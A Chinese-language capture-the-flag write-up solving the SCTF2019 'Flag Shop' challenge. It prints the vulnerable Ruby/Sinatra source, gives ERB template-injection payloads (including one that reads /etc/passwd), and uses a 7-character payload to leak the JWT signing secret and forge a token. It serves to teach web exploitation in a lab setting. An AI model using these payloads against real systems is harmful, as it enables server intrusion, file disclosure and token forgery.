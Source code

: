# [SCTF2019]Flag Shop

## 知识点

`jwt`

`ruby EBR`

`SSTIw`

## 解题

![](./img/[SCTF2019]FlagShop-1.png)

`work`可以获得钱，但是太少，看了`cookie`，发现是`jwt`，解密一下

![](./img/[SCTF2019]FlagShop-2.png)

![](./img/[SCTF2019]FlagShop-3.png)

发现有`jkl`代表钱，但是需要破解`secret`，用了`c-jwt-crack`和`字典破解`发现都没有找到，说明应该不是直接破解，找找其他的地方

在`robots.txt`找到了个路径`/filebak`,进入路径后发现`ruby`代码

![](./img/[SCTF2019]FlagShop-4.png)

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

在这里存在`ssti`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

`ruby EBR`漏洞格式是`<%=%>`已经占了`5`个字符，这里要求`7`个字符。

常用的`payload`是

```ruby
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

这里利用`ruby`的[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)，只用两个字符

> `$'` The string to the right of the last successful match. 最后一次成功匹配的右侧的字符串

按照代码构造`payload`

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working
//urlencode
work?SECRET=&name=%3C%25%3D%24'%25%3E&do=%3C%25%3D%24'%25%3E%20is%20working
```

![](./img/[SCTF2019]FlagShop-5.png)

用获取到的这个`secret`加密

![](./img/[SCTF2019]FlagShop-6.png)

将这个`secret`用来加密，修改金额

![](./img/[SCTF2019]FlagShop-7.png)

然后就可以进行购买

![](./img/[SCTF2019]FlagShop-8.png)

![](./img/[SCTF2019]FlagShop-9.png)

最后用`jwt`解密

![](./img/[SCTF2019]FlagShop-10.png)

[参考文章](https://syunaht.com/p/1841453998.html)